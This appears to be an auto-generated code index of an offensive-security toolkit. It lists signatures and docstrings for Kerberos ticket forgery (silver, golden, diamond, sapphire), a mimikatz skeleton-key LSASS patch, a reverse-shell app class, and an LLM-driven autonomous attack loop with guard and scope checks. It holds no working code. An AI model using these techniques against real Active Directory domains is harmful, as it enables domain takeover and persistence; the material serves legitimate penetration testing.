    usage: Kerberos key usage number.

Returns:
    Encrypted ciphertext.*
- `aes_decrypt` (line 361) `def aes_decrypt(self, key, ciphertext, usage)` - *AES decrypt with Kerberos CTS mode.

Args:
    key: AES decryption key.
    ciphertext: Encrypted data.
    usage: Key usage number.

Returns:
    Decrypted plaintext.*
- `compute_checksum` (line 389) `def compute_checksum(key, data, etype)` - *Compute a Kerberos checksum using HMAC-SHA1-96-AES.

Args:
    key: Checksum key.
    data: Data to checksum.
    etype: Encryption type.

Returns:
    Checksum bytes.*
- `__init__` (line 421) `def __init__(self, domain, dc_host, dc_ip)`
- `get_supported_etypes` (line 427) `def get_supported_etypes(self)` - *Return encryption types supported by this implementation.

Returns:
    List of etype integers.*
- `build_as_req` (line 435) `def build_as_req(self, username, domain, password, etype)` - *Build an AS-REQ message for TGT retrieval.

Constructs a KRB_AS_REQ with PA-ENC-TIMESTAMP pre-authentication
using the user's password-derived key.

Args:
    username: SAM account name.
    domain: Domain FQDN (use domain.realm).
    password: User plaintext password.
    etype: Encryption type (23=RC4, 18=AES256).

Returns:
    Dict with pvno, msg_type, padata, req_body, and derived_key.*
- `build_tgs_req` (line 489) `def build_tgs_req(self, params)` - *Build a TGS-REQ message for service ticket retrieval.

Args:
    params: TGSRequest with target service and TGT.

Returns:
    Dict with msg_type, padata, req_body, and authenticator.*
- `parse_as_rep` (line 534) `def parse_as_rep(self, as_rep_data, key, etype)` - *Parse an AS-REP response and extract the TGT and session key.

Args:
    as_rep_data: Raw AS-REP bytes from the KDC.
    key: Pre-authentication key.
    etype: Encryption type.

Returns:
    Dict with tgt, session_key, enc_part, flags, endtime.

Raises:
    ValueError: If decryption fails or error code present.*
- `parse_tgs_rep` (line 550) `def parse_tgs_rep(self, tgs_rep_data, session_key, etype)` - *Parse a TGS-REP response and extract the service ticket.

Args:
    tgs_rep_data: Raw TGS-REP bytes from the KDC.
    session_key: TGT session key.
    etype: Encryption type.

Returns:
    Dict with ticket, enc_part, service_session_key, pac.*
- `decrypt_ticket` (line 563) `def decrypt_ticket(self, ticket_data, key, etype)` - *Decrypt the encrypted portion of a Kerberos ticket.

Used for silver ticket forgery — requires the service account's
password hash or machine account hash.

Args:
    ticket_data: Raw ticket bytes.
    key: Service account key (NT hash or AES key).
    etype: Encryption type.

Returns:
    Dict with decrypted ticket fields.*
- `parse_pac` (line 588) `def parse_pac(self, pac_data)` - *Parse a Privilege Attribute Certificate (PAC) from decrypted auth data.

Args:
    pac_data: Raw PAC bytes from the authorization data.

Returns:
    PACInfo with extracted PAC components.*
- `_parse_pac_buffer` (line 622) `def _parse_pac_buffer(pac, buf_type, buf_data)`
- `_build_pa_enc_timestamp` (line 640) `def _build_pa_enc_timestamp(self, key, etype, timestamp)`
- `_parse_kdc_rep` (line 653) `def _parse_kdc_rep(self, data, key, etype, rep_type)`
- `_rc4_encrypt` (line 667) `def _rc4_encrypt(key, data, usage)`
- `_rc4_decrypt` (line 676) `def _rc4_decrypt(key, data, usage)`
- `parse_error` (line 687) `def parse_error(error_data)` - *Extract error code, message, and client/server realm from a KRB-ERROR.

Args:
    error_data: Raw KRB-ERROR bytes.

Returns:
    Dict with error_code, error_name, ctime, crealm, srealm, e_data.*
- `is_expired` (line 706) `def is_expired(endtime, grace_period)` - *Check if a ticket has expired.

Args:
    endtime: Ticket endtime as unix timestamp.
    grace_period: Grace period in seconds after expiration.

Returns:
    True if the ticket has expired.*
- `validate_flags` (line 719) `def validate_flags(ticket, required_flags)` - *Check that a ticket has all required flags.

Args:
    ticket: Parsed KerberosTicket.
    required_flags: List of flag names that must be set.

Returns:
    True if all required flags are present.*
- `validate_pac_checksums` (line 735) `def validate_pac_checksums(pac)` - *Validate PAC server and KDC checksums.

Args:
    pac: Parsed PACInfo with checksum data.

Returns:
    True if checksums are present (structural validation only).*

#### `kerberos_tickets.py`
**Path:** `modules/kerberos_tickets.py`
**File Doc:** *Kerberos ticket forgery attacks — silver, golden, diamond, sapphire tickets.  Implements ticket forging techniques for persistence and privilege escalation in Active Directory environments. Requires the KerberosCore library.  Silver ticket: Forge a service ticket using the service account's NT hash. Golden ticket: Forge a TGT using the krbtgt account's NT hash. Diamond ticket: Golden ticket variant with forged PAC containing arbitrary group SIDs. Sapphire ticket: S4U2self-based ticket forgery for resource-based constrained delegation. Skeleton key: Patch LSASS to accept a master password for any account (via mimikatz wrapper).*

**Classes:**
- `SilverTicketConfig` (line 36) `class SilverTicketConfig` - *Silver ticket forgery parameters.

Attributes:
    target_service: Service SPN (e.g. 'cifs/DC01.domain.local').
    domain: Domain FQDN.
    domain_sid: Domain SID (e.g. 'S-1-5-21-...').
    username: Username to impersonate (default: Administrator).
    user_rid: RID of the impersonated user (default: 500).
    service_key_hex: NT hash of the service account in hex.
    service_key_bytes: NT hash bytes (alternative to hex).
    extra_sids: Additional group SIDs for the forged PAC.
    etype: Encryption type (23=RC4, 18=AES256).
    lifetime_hours: Ticket lifetime in hours.*
- `GoldenTicketConfig` (line 65) `class GoldenTicketConfig` - *Golden ticket forgery parameters.

Attributes:
    domain: Domain FQDN.
    domain_sid: Domain SID.
    username: Username to impersonate (default: Administrator).
    user_rid: RID of the impersonated user.
    krbtgt_hash_hex: NT hash of krbtgt account in hex.
    krbtgt_hash_bytes: NT hash bytes (alternative to hex).
    krbtgt_aes_key_hex: AES256 key of krbtgt account in hex.
    groups: Group RIDs to include in the PAC (default: 513, 512, 520, 518, 519).
    etype: Encryption type.
    lifetime_hours: Ticket lifetime in hours.*
- `DiamondTicketConfig` (line 94) `class DiamondTicketConfig` - *Diamond ticket forgery parameters (PAC-enhanced golden ticket).

Builds on GoldenTicketConfig with additional PAC manipulation:
the forged PAC includes arbitrary group SIDs and the user is marked
as a domain admin.

Attributes:
    domain: Domain FQDN.
    domain_sid: Domain SID.
    username: Target username.
    user_rid: User RID.
    krbtgt_hash_hex: krbtgt NT hash hex.
    target_groups: RIDs to embed in the PAC.
    extra_sids: Arbitrary extra SIDs to add.
    etype: Encryption type.
    lifetime_hours: Ticket lifetime.*
- `SilverTicketForger` (line 124) `class SilverTicketForger` - *Forge service tickets (silver tickets) for lateral movement and persistence.

Silver tickets allow authentication to a specific service without
contacting the domain controller. Requires the service account's NT hash.*
- `GoldenTicketForger` (line 265) `class GoldenTicketForger` - *Forge TGTs (golden tickets) for full domain compromise persistence.

Golden tickets provide Kerberos authentication to any service in the
domain without time or access restrictions. Requires the krbtgt hash.*
- `DiamondTicketForger` (line 397) `class DiamondTicketForger` - *Forge diamond tickets with enhanced PAC manipulation.

Diamond tickets extend golden tickets by embedding a properly
constructed PAC with privileged group SIDs, making the ticket
appear legitimate to PAC validation.*
- `SapphireTicketForger` (line 462) `class SapphireTicketForger` - *S4U2self-based ticket forgery for resource-based constrained delegation.

Sapphire tickets exploit RBCD by using S4U2self to obtain a service
ticket for any user to a service where RBCD is configured.*
- `SkeletonKeyInjector` (line 567) `class SkeletonKeyInjector` - *Skeleton key attack — patch LSASS to accept a master password.

After running mimikatz skeleton key, any domain user can authenticate
with the master password 'mimikatz'. This module provides operational
wrappers for executing and detecting skeleton key attacks.*

**Methods:**
- `__init__` (line 131) `def __init__(self)`
- `forge` (line 134) `def forge(self, config)` - *Forge a silver ticket for the specified service.

Args:
    config: SilverTicketConfig with target service and keys.

Returns:
    Dict with raw_ticket bytes, kirbi data, and metadata.

Raises:
    ValueError: If required parameters are missing.*
- `_resolve_key` (line 190) `def _resolve_key(self, config)`
- `_build_silver_pac` (line 200) `def _build_silver_pac(self, config, start, end)`
- `_build_enc_ticket_part` (line 206) `def _build_enc_ticket_part(self, config, start, end, flags, key, etype)`
- `_build_ticket_structure` (line 225) `def _build_ticket_structure(self, config, flags, enc_part)`
- `_build_kirbi` (line 235) `def _build_kirbi(self, ticket, enc_part, etype)`
- `_mimikatz_inject_command` (line 244) `def _mimikatz_inject_command(self, config)`
- `_impacket_command` (line 254) `def _impacket_command(self, config)`
- `__init__` (line 272) `def __init__(self)`
- `forge` (line 275) `def forge(self, config)` - *Forge a golden ticket TGT.

Args:
    config: GoldenTicketConfig with krbtgt hash and domain info.

Returns:
    Dict with raw TGT, KIRBI format, and operational metadata.*
- `_resolve_krbtgt_key` (line 324) `def _resolve_krbtgt_key(self, config)`
- `_build_golden_pac` (line 339) `def _build_golden_pac(self, config)`
- `_build_golden_enc_part` (line 346) `def _build_golden_enc_part(self, config, start, end, flags, key)`
- `_assemble_tgt` (line 368) `def _assemble_tgt(self, config, flags, enc_part)`
- `_mimikatz_command` (line 379) `def _mimikatz_command(self, config)`
- `_impacket_command` (line 388) `def _impacket_command(self, config)`
- `__init__` (line 405) `def __init__(self)`
- `forge` (line 408) `def forge(self, config)` - *Forge a diamond ticket with PAC enhancement.

Args:
    config: DiamondTicketConfig with PAC manipulation parameters.

Returns:
    Dict with forged TGT data and operational notes.*
- `_build_diamond_pac` (line 446) `def _build_diamond_pac(self, config)`
- `__init__` (line 469) `def __init__(self, kerberos_core)`
- `forge_s4u2self` (line 472) `def forge_s4u2self(self, tgt, session_key, target_user, target_service, domain)` - *Generate a TGS-REQ for S4U2self service ticket.

Args:
    tgt: TGT bytes.
    session_key: TGT session key.
    target_user: User to impersonate.
    target_service: Target service SPN.
    domain: Domain FQDN.

Returns:
    Dict with S4U2self TGS-REQ parameters.*
- `forge_rbcd` (line 530) `def forge_rbcd(self, machine_account_hash, target_service, domain, username)` - *Generate exploit instructions for resource-based constrained delegation.

Args:
    machine_account_hash: NT hash of a machine account with an SPN.
    target_service: Target service to delegate to.
    domain: Domain FQDN.
    username: User to impersonate.

Returns:
    Dict with RBCD attack steps and commands.*
- `detect_skeleton_key` (line 578) `def detect_skeleton_key(target_host, domain, dc_ip)` - *Check if skeleton key is active on a DC.

Attempts authentication with the skeleton key master password.

Args:
    target_host: Domain controller hostname.
    domain: Domain FQDN.
    dc_ip: DC IP address.

Returns:
    Dict with detection results.*
- `inject_command` (line 600) `def inject_command(target_host)` - *Generate mimikatz command for skeleton key injection on a DC.

Args:
    target_host: Target domain controller.

Returns:
    mimikatz command string.*
- `cleanup_command` (line 612) `def cleanup_command()` - *Generate LSASS restart command to remove skeleton key patch.

Returns:
    Command to restart LSASS (force DC reboot).*

#### `kill_chain_viz.py`
**Path:** `modules/kill_chain_viz.py`
**File Doc:** *SVG / HTML kill-chain visualizer — generates standalone HTML with embedded SVG.  Reads ``modules.killchain.KillChain`` as the single source of truth.*

**Functions:**
- `_load_phases` (line 20) `def _load_phases(sessions)` - *Return a list of phase dicts suitable for SVG/HTML rendering.*
- `_read_target` (line 27) `def _read_target()`
- `_build_svg` (line 34) `def _build_svg(phases)`
- `generate_html` (line 69) `def generate_html(target, sessions)`
- `generate_svg` (line 102) `def generate_svg(target, sessions)`

#### `killchain.py`
**Path:** `modules/killchain.py`
**File Doc:** *Unified kill-chain — single source of truth consumed by all surfaces.  This module is the canonical authority for kill-chain phases, progress derivation, phase mapping, and atomic updates. Every kill-chain display (CLI, Flask dashboard, GUI2, Textual TUI, tips engine, recommendation signals, MCP) imports from here. There is exactly one phase definition, one mapping table, and one update path.  Contracts: - ``KillChainConfig`` holds all definitions (phases, colors, labels, maps). - ``KillChain`` reads from the `WorldModel` singleton as the primary source and falls back to raw ``world_model.json`` keys for operator overrides. - ``KillChain.advance_phase()`` is the only function that writes ``current_phase`` / ``completed_phases`` / ``phase`` into the raw JSON. Every other module that needs to change the kill-chain phase must call this function.*

**Classes:**
- `KillChainConfig` (line 38) `class KillChainConfig` - *Centralised constants for the unified kill-chain.

Every colour, label, and mapping lives here. No magic values anywhere.*
- `PhaseStatus` (line 136) `class PhaseStatus` - *Progress for a single kill-chain phase.*
- `KillChain` (line 145) `class KillChain` - *Unified kill-chain operations consumed by every display surface.

All methods are static or classmethods so no instantiation is needed.
The `WorldModel` singleton is read as the primary source; raw JSON
keys in ``world_model.json`` provide operator overrides.*

**Functions:**
- `get_killchain` (line 440) `def get_killchain()` - *Return the ``KillChain`` class as a module-level entry point.*

**Methods:**
- `world_model_path` (line 116) `def world_model_path(self)` - *Return the resolved path to world_model.json.*
- `phase_index` (line 120) `def phase_index(self, phase)` - *Return the positional index of a canonical phase in the kill chain.*
- `is_valid_phase` (line 127) `def is_valid_phase(self, phase)` - *Return True when ``phase`` is a recognised canonical phase.*
- `config` (line 154) `def config()` - *Return the centralised configuration.*
- `phases` (line 159) `def phases()` - *Return the canonical 8-phase tuple.*
- `phase_labels` (line 164) `def phase_labels()` - *Return the canonical phase label mapping.*
- `phase_colors` (line 169) `def phase_colors()` - *Return the canonical phase hex-color mapping.*
- `phase_rich_colors` (line 174) `def phase_rich_colors()` - *Return the canonical phase rich-terminal color mapping.*
- `engagement_phase_to_cli` (line 179) `def engagement_phase_to_cli(engagement_value)` - *Map a ``WorldModel.EngagementPhase`` value to the CLI phase key.

Args:
    engagement_value: An ``EngagementPhase`` value string.

Returns:
    The corresponding CLI phase or ``"recon"`` as the safe default.*
- `cli_phase_to_host_state` (line 191) `def cli_phase_to_host_state(phase)` - *Map a CLI phase to a ``WorldModel.HostState`` value.

Args:
    phase: A canonical CLI phase key.

Returns:
    The corresponding ``HostState.value``, or empty string when no
    state advancement is warranted.*
- `current_phase` (line 204) `def current_phase(world_model_path)` - *Derive the current kill-chain phase.

Resolution order:
1. ``WorldModel.get_phase()`` (derived from host states).
2. Raw ``world_model.json`` ``current_phase`` key (operator override).
3. Raw ``world_model.json`` ``phase`` key (legacy).
4. ``"recon"`` as the safe fallback.

Args:
    world_model_path: Optional override path for the world model file.

Returns:
    A canonical CLI phase key.*
- `advance_phase` (line 251) `def advance_phase(new_phase, world_model_path)` - *Advance the kill-chain phase for all connected surfaces.

Persists ``current_phase``, ``phase``, and ``completed_phases``
in the raw ``world_model.json`` AND advances every host in the
``WorldModel`` to the corresponding ``HostState``.

Args:
    new_phase: A valid canonical phase key.
    world_model_path: Optional override path for the world model file.

Returns:
    True when the write succeeded, False otherwise.*
- `get_progress` (line 315) `def get_progress(world_model_path)` - *Return the current kill-chain progress as a list of status objects.

Each phase is tagged as ``"done"``, ``"active"``, or ``"pending"``.
Suitable for rendering in any UI (CLI, web, GUI, TUI).

Args:
    world_model_path: Optional override path for the world model file.

Returns:
    A list of ``PhaseStatus`` named tuples in kill-chain order.*
- `compact_progress` (line 364) `def compact_progress(current_phase, phases_entered)` - *Return a compact single-line progress indicator ``[R>E>X>P>L]``.

Args:
    current_phase: The active phase key.
    phases_entered: Optional list of phases the operator has entered.

Returns:
    A string suitable for inline display (e.g., below the prompt).*
- `phases_for_display` (line 384) `def phases_for_display()` - *Return an ordered ``(key, label, hex_color)`` triple for every phase.

Convenience for UI builders that need to render every phase.*
- `phase_index` (line 395) `def phase_index(phase)` - *Return the zero-based index of a canonical phase.*
- `snapshot` (line 400) `def snapshot(world_model_path)` - *Return a single, render-agnostic snapshot of the whole kill-chain.

This is the one payload every surface (CLI, Flask dashboard, GUI2,
Textual TUI, tips engine, REST API) consumes. It centralises the
current phase, the completed set, per-phase progress, host states and
a compact progress glyph so surfaces cannot diverge.

Args:
    world_model_path: Optional override path for the world model file.

Returns:
    A JSON-serialisable dict with keys: ``current_phase``,
    ``completed_phases``, ``progress``, ``host_states``,
    ``compact`` and ``updated_at``.*

#### `kivi.py`
**Path:** `modules/kivi.py`

**Classes:**
- `ReverseShellApp` (line 11) `class ReverseShellApp(App)`

**Methods:**
- `build` (line 12) `def build(self)`
- `connect_to_server` (line 27) `def connect_to_server(self, instance)`

#### `lazy_agent.py`
**Path:** `modules/lazy_agent.py`
**File Doc:** *Agentic tool-calling bridge for the loop and the main agent.  The loop's planner/worker use one-shot completions by default. This module upgrades them to real tool calling through the existing OpenAI-compatible backends (groq/openai/deepseek): :class:`AgentRunner` already speaks the function-calling protocol, so here we add  - tool registration for loop operations (the worker builds the guarded executors; this module only wires schemas and the agent loop), - per-intent and per-session conversation persistence, so a resumed intent continues the same model conversation instead of replaying, - an external ``opencode run`` backend for the main agent (full MCP tooling through that CLI) with best-effort session capture.  Native mode keeps guard/scope/audit parity because every tool call is executed by the worker's guarded runner.*

**Classes:**
- `ObservableAgentRunner` (line 145) `class ObservableAgentRunner(AgentRunner)` - *AgentRunner that reports every tool call and result to a sink.*
- `ConversationStore` (line 261) `class ConversationStore` - *Per-task persistence of agent conversations (intents and sessions).*

**Functions:**
- `model_timeout_sec` (line 41) `def model_timeout_sec()` - *Return the hard per-turn model timeout from configuration.

``payload.json`` key ``agent_model_timeout`` overrides it; the floor
keeps slow 70B cloud generations viable while a hung backend can no
longer pin a worker forever (it raises into the member failover).*
- `tool_calling_enabled` (line 57) `def tool_calling_enabled()` - *Return whether agentic tool calling is enabled by configuration.

``payload.json`` key ``agent_tool_calling`` disables it explicitly;
absent means enabled whenever a compatible backend resolves.*
- `max_iterations` (line 72) `def max_iterations()` - *Return the bounded agent step budget from configuration.*
- `resolve_agentic_model` (line 83) `def resolve_agentic_model(exclude)` - *Return a raw tool-calling backend for the best pool member, or None.

Members are tried by priority; only the openai-compatible legs can
speak function calling here. Ollama/Anthropic/toposwarm members are
skipped so the loop degrades to the deterministic path instead of
erroring mid-intent. ``exclude`` holds model names already tried
this intent so a failing member cannot pin the whole attempt.*
- `_enable_streaming` (line 123) `def _enable_streaming(runner, on_event)` - *Turn on token-level streaming for a runner when the stage is on.

Args:
    runner: ObservableAgentRunner about to run.
    on_event: Optional (kind, name, text) observer to receive
        ``delta`` and ``think`` events.*
- `_json_default` (line 221) `def _json_default(value)` - *JSON fallback for tool-call objects from any model SDK.*
- `_deep_clean` (line 237) `def _deep_clean(value, _depth)` - *Recursively coerce one value into plain JSON types.*
- `_json_safe` (line 253) `def _json_safe(messages)` - *Round-trip messages through JSON so SDK objects persist cleanly.*
- `register_tools` (line 322) `def register_tools(runner, specs)` - *Register tool specs (name, description, func, parameters, required).*
- `run_worker_session` (line 335) `def run_worker_session(model, task_id, intent_id, system_prompt, launch_prompt, tools, on_event)` - *Run one agentic intent attempt with resume seeding.

Args:
    model: Raw tool-calling backend.
    task_id: Task whose conversation store persists the session.
    intent_id: Intent the conversation belongs to.
    system_prompt: Invariant contract (goal, intent, scope, rules).
    launch_prompt: The user turn for this attempt.
    tools: Tool specs registered on the runner.
    on_event: Optional (kind, name, text) observer.

Returns:
    Dict with reply, tool usage and persisted message count.*
- `run_main_session` (line 374) `def run_main_session(model, session_id, system_prompt, prompt, tools, on_event)` - *Run one main-agent turn, resuming the stored session conversation.*
- `run_external_opencode` (line 396) `def run_external_opencode(prompt, session_id, agent, cwd, timeout_sec)` - *Run one headless ``opencode run`` task with MCP tooling.

Best-effort session capture: when the JSON stream carries a session
id it is returned so the next call can resume with ``--session``.

Args:
    prompt: Task text handed to the external agent.
    session_id: Existing session to continue, when known.
    agent: Optional opencode agent name (``--agent``).
    cwd: Working directory for the agent.
    timeout_sec: Hard timeout for the child process.

Returns:
    Dict with reply, captured session id and return code; never raises.*
- `run_external_hermes` (line 472) `def run_external_hermes(prompt, session_id, cwd, timeout_sec, max_turns, run_budget)` - *Run one detached ``hermes chat --oneshot`` task.

Hermes counterpart of :func:`run_external_opencode` so the
orchestrator can dispatch single tasks to either agent runtime.
Uses the local Qwen server flags; Hermes resolves its own provider
config, so a down server surfaces as a terse error, never a hang.

Args:
    prompt: Task text for the agent.
    session_id: Existing session to resume (``--resume``), when known.
    cwd: Working directory for the agent.
    timeout_sec: Hard timeout for the child process.
    max_turns: Optional ``--max-turns`` cap (0 leaves default).
    run_budget: Optional ``--run-budget`` seconds cap (0 leaves default).

Returns:
    Dict with reply, session id and return code; never raises.*
- `_session_from_line` (line 556) `def _session_from_line(line)` - *Extract a session id from one opencode JSON event line, if present.*
- `_process_watchdog` (line 578) `def _process_watchdog(timeout_sec, process)` - *Kill a child process group after the timeout; returns the timer.*
- `_kill` (line 583) `def _kill()`
- `_invoke` (line 190) `def _invoke()`
- `_tick` (line 196) `def _tick()`

**Methods:**
- `__init__` (line 148) `def __init__(self, model, system_prompt, max_iterations, on_event)` - *Bind the model and the optional event sink (kind, name, text).*
- `_process_tool_call` (line 159) `def _process_tool_call(self, tool_call)` - *Run the tool through the base runner, then report the result.*
- `run` (line 168) `def run(self, user_input)` - *Base loop plus final-turn persistence for true resume.*
- `_call_model` (line 174) `def _call_model(self)` - *Wrap one model turn with start/end, keep-alive and hard timeout.

A slow or hung backend must never be invisible nor eternal: while
the call blocks, the runner reports every ``MODEL_KEEPALIVE_SEC``
that the model is still being awaited, and past
:func:`model_timeout_sec` the turn raises into the member
failover (the SDK call itself cannot be cancelled, so its thread
stays daemon-leaked until the backend answers or dies).*
- `__init__` (line 264) `def __init__(self, task_id)` - *Bind the conversation store for one task (``main`` when empty).*
- `_load` (line 269) `def _load(self)` - *Load the conversation payload.*
- `intent_messages` (line 273) `def intent_messages(self, intent_id)` - *Return the stored messages for one intent (resume seed).*
- `save_intent` (line 278) `def save_intent(self, intent_id, messages)` - *Persist the tail of one intent conversation.*
- `session` (line 287) `def session(self, session_id)` - *Return one main-agent session payload (empty when unknown).*
- `sessions` (line 291) `def sessions(self)` - *List main-agent sessions with title, message count and age.*
- `save_session` (line 305) `def save_session(self, session_id, messages, title)` - *Persist one main-agent session conversation tail.*
- `reset_intents` (line 315) `def reset_intents(self)` - *Drop every stored intent conversation (fresh agent start).*

#### `lazy_bridge.py`
**Path:** `modules/lazy_bridge.py`
**File Doc:** *Bidirectional LAZY <-> LazyOwn bridge.  LAZY runs standalone under sessions/lazy with its own tasks, assets, experiment graphs, activity transcripts, traffic logs and guard audits. This bridge syncs that universe with LazyOwn world_model, objectives, evidence vault, traffic recorder, finding lifecycle and campaign DB in both directions without touching LAZY runtime files.*

**Functions:**
- `_data_dir` (line 35) `def _data_dir()` - *Resolve runtime data directory.

Returns:
    LAZY_DIR holding tasks, assets and graphs.*
- `_read_json` (line 47) `def _read_json(path, default)` - *Read json tolerating missing files.

Args:
    path: File path.
    default: Default payload.

Returns:
    Parsed payload or default.*
- `_read_jsonl` (line 64) `def _read_jsonl(path)` - *Read jsonl tolerating missing files.

Args:
    path: File path.

Returns:
    Row list.*
- `lazy_tasks` (line 88) `def lazy_tasks()` - *Load LAZY task registry.

Returns:
    Task map keyed by task id.*
- `lazy_assets` (line 99) `def lazy_assets()` - *Load LAZY asset nodes.

Returns:
    Asset node list.*
- `lazy_graph` (line 110) `def lazy_graph(task_id)` - *Load experiment graph for a task.

Args:
    task_id: LAZY task id.

Returns:
    Graph dict with nodes, edges and anchors.*
- `lazy_activity` (line 123) `def lazy_activity(task_id)` - *Load activity transcript for a task.

Args:
    task_id: LAZY task id.

Returns:
    Activity row list.*
- `lazy_traffic` (line 135) `def lazy_traffic(task_id)` - *Load traffic log for a task.

Args:
    task_id: LAZY task id.

Returns:
    Traffic row list.*
- `lazy_guard_audit` (line 147) `def lazy_guard_audit(task_id)` - *Load guard audit for a task.

Args:
    task_id: LAZY task id.

Returns:
    Guard audit row list.*
- `bridge_status` (line 159) `def bridge_status()` - *Summarize LAZY universe and last sync cursor.

Returns:
    Status dict with counts per task.*
- `_extract_hosts_from_graph` (line 180) `def _extract_hosts_from_graph(graph)` - *Derive host, service and vuln observations from graph facts.

Args:
    graph: Experiment graph.

Returns:
    Observation dict keyed by ip.*
- `pull_to_world_model` (line 206) `def pull_to_world_model()` - *Sync LAZY graphs and assets into LazyOwn world model.

Returns:
    Summary with hosts, services and facts synced.*
- `pull_to_objectives` (line 251) `def pull_to_objectives()` - *Inject open LAZY tasks as LazyOwn objectives without duplicates.

Returns:
    Summary with injected count.*
- `pull_findings_to_lifecycle` (line 286) `def pull_findings_to_lifecycle()` - *Confirm LAZY finding nodes in LazyOwn finding lifecycle.

Returns:
    Summary with confirmed count.*
- `pull_traffic_to_recorder` (line 314) `def pull_traffic_to_recorder()` - *Mirror LAZY traffic logs into LazyOwn traffic recorder index.

Returns:
    Summary with mirrored count.*
- `push_objective_to_lazy` (line 344) `def push_objective_to_lazy(goal, scope)` - *Export a LazyOwn objective as an LAZY-compatible task draft.

Args:
    goal: Objective text.
    scope: Scope ip list.

Returns:
    Draft task record written under sessions/lazy_drafts/.*
- `push_tasks_to_c2` (line 369) `def push_tasks_to_c2(only)` - *Mirror loop tasks into the lazyc2 Kanban board (sessions/tasks.json).

One C2 card per loop task, upserted through a persisted id map so
repeated syncs update the card instead of duplicating it. Statuses
follow the C2 vocabulary (New/Started/Blocked/Review/Done).

Args:
    only: Optional task id subset to sync.

Returns:
    Dict with created/updated counts.*
- `sync_all` (line 434) `def sync_all()` - *Run full bidirectional pull plus lifecycle, traffic and board mirror.

Returns:
    Combined sync summary.*
- `_record_sync` (line 449) `def _record_sync(action, summary)` - *Record sync cursor best effort.

Args:
    action: Sync action name.
    summary: Action summary.*

#### `lazy_cli_bridge.py`
**Path:** `modules/lazy_cli_bridge.py`
**File Doc:** *Full CLI catalog for the Lazy autonomous loop.  The loop historically routed only seven ``auto_*`` verbs plus a handful of hardcoded probes. This module discovers every ``do_<verb>`` command of the cmd2 shell (``cli/commands/*.py`` plus ``lazyown.py``) so the planner and the workers can propose and execute any of the 800+ Lazy commands through the same Guard and scope path as the built-in verbs.  Stdlib only. Lazy imports keep ``auto_registry`` cycle-free.*

**Functions:**
- `_source_files` (line 74) `def _source_files()` - *Return shell sources that may declare commands.*
- `_source_mtimes` (line 82) `def _source_mtimes()` - *Return mtimes of command sources for cache invalidation.*
- `_discover` (line 93) `def _discover()` - *Scan shell sources for do_<verb> definitions.*
- `cli_verbs` (line 106) `def cli_verbs()` - *Return every discovered shell verb, cached by source mtime.*
- `is_cli_verb` (line 125) `def is_cli_verb(name)` - *Return True when name is a real shell command.*
- `phase_for` (line 131) `def phase_for(verb)` - *Map a verb to its kill-chain phase via keyword affinity.*
- `risk_for` (line 140) `def risk_for(verb)` - *Classify a verb as safe, exploit or high risk.*
- `needs_target_for` (line 150) `def needs_target_for(verb)` - *Return whether the verb usually carries a target argument.*
- `build_cli_command` (line 158) `def build_cli_command(verb, target)` - *Build a shell line for any CLI verb bound to target.

Args:
    verb: Canonical shell verb without parameters.
    target: Optional target appended when the verb takes one.

Returns:
    Command line ready for the shell executor.

Raises:
    KeyError: Unknown verb.
    ValueError: Empty verb name.*
- `search_cli_verbs` (line 185) `def search_cli_verbs(query, phase, limit)` - *Search the full CLI catalog by keyword and phase.

Args:
    query: Substring filter over verb names.
    phase: Optional kill-chain phase filter.
    limit: Max entries returned.

Returns:
    List of verb descriptors with name, phase and risk.*
- `cli_catalog_for_phase` (line 211) `def cli_catalog_for_phase(phase, limit)` - *Return a compact verb list for LLM prompt injection.*
- `full_cli_enabled` (line 219) `def full_cli_enabled()` - *Return whether the loop may route any CLI verb.

Reads ``payload.json`` -> ``orchestrator`` -> ``full_cli``. Any load
failure falls back to the default so a broken payload never widens
the loop silently in the wrong direction.*
- `set_full_cli` (line 242) `def set_full_cli(enabled)` - *Persist the full-CLI routing flag and return the new value.

Args:
    enabled: New flag value.

Returns:
    Stored value after persisting.*

#### `lazy_engine.py`
**Path:** `modules/lazy_engine.py`
**File Doc:** *Lazy autonomous loop engine: single orchestrator for lazy_* commands.  Every subsystem keeps exact behavior under operator-facing ``lazy_*`` names. Storage lives under ``sessions/lazy/``.*

**Classes:**
- `LazyEngine` (line 55) `class LazyEngine(LazyLoopEngine)` - *Single orchestrator exposed under the lazy_* command surface.*

#### `lazy_installer.py`
**Path:** `modules/lazy_installer.py`
**File Doc:** *Capability installer for the Lazy autonomous loop.  Ports the installer-agent idea with Lazy safety semantics: the loop never invents install commands. A fixed allowlist maps missing tool binaries to reviewed one-line install recipes; anything off-list yields no intent. Install intents only resolve when the payload flag ``installer_enabled`` is set (default off), and every install still crosses the normal Guard and intercept path, so pairing this with an ask-rule (``lazy_guard rule-add "apt-get install" ask installs-write-to-host``) keeps host mutation operator-gated.  Stdlib only.*

**Functions:**
- `installer_enabled` (line 41) `def installer_enabled()` - *Return whether the loop may resolve install intents.

Reads ``payload.json`` -> ``orchestrator`` -> ``installer``. Defaults
to off so host mutation stays an explicit operator decision. The flag
lives under the free-form orchestrator section so enabling it never
adds a top-level payload key (the schema-coverage contract).*
- `set_installer_enabled` (line 58) `def set_installer_enabled(enabled)` - *Persist the installer flag and return the stored value.*
- `install_command_for` (line 70) `def install_command_for(tool)` - *Return the allowlisted install recipe for one tool, or None.*
- `intent_for` (line 75) `def intent_for(tool)` - *Build the canonical install intent summary for one tool.*
- `tool_from_intent` (line 80) `def tool_from_intent(text)` - *Extract the tool name from an install intent, else empty string.*
- `steps_for_install` (line 88) `def steps_for_install(text)` - *Resolve an install intent to its recipe, or None.

Returns None when the installer is disabled, the tool is already
present, or the tool has no allowlisted recipe.*

#### `lazy_intel.py`
**Path:** `modules/lazy_intel.py`
**File Doc:** *Intel feed from the Lazy autonomous loop.  Every routing decision the loop makes (which shell verb, for which intent, with what outcome) is recorded as JSONL under ``sessions/lazy/`` and fused into the :class:`WorldModel` on sync. The intel graph (``modules.intel_fusion.build_intel_graph``) and the attack graph (``modules.attack_surface3d.build_attack_graph``) are derived views over ``sessions/`` artefacts, so feeding the world model feeds both graphs and everything the orchestrator reads.  The same records back the TopoSwarm orchestrator dataset, see :mod:`modules.lazy_orchestrator_dataset`.  Stdlib only. Never raises; all entry points degrade to no-ops on error.*

**Functions:**
- `_now` (line 30) `def _now()` - *Return current epoch seconds.*
- `_log_path` (line 35) `def _log_path()` - *Return routing log path, ensuring the directory exists.*
- `_mask` (line 41) `def _mask(text)` - *Mask secrets in stored text, mirroring console redaction.

Beyond pattern redaction, configured credential values from the live
payload are replaced outright (the PentAGI secret-patterns idea), so
routing records and training rows never persist live passwords or keys.*
